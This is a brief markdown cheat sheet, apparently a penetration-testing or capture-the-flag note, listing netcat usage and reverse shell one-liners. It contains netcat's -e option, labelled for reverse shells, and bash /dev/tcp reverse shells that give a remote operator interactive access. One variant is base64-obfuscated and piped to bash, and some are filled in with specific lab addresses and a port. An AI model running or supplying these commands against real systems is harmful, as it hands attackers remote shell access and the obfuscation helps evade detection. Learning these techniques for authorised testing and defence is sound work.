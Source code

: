 # Netcat
Comm | Desc
--- | ---
`nc -l -p <port>` | listen on port
`nc <dest_ip> <port>` | Connect to dest_ip on port
`nc <dest_ip> <port> -e <binary>` | Connect to dest_ip on port executing binary (great for rev shell)


#netcatalternative
`setsid bash -i &>/dev/tcp/IP/PORT 0>&1 &`
`bash -i &>/dev/tcp/IP/PORT 0>&1' #`
`echo $(echo 'bash -i >& /dev/tcp/IP/PORT 0>&1' | base64) | base64 -d | bash`

echo $(echo 'bash -i >& /dev/tcp/10.10.14.22/6161 0>&1' | base64) | base64 -d | bash

`setsid bash -i &>/dev/tcp/10.10.14.133/6161 0>&1 &`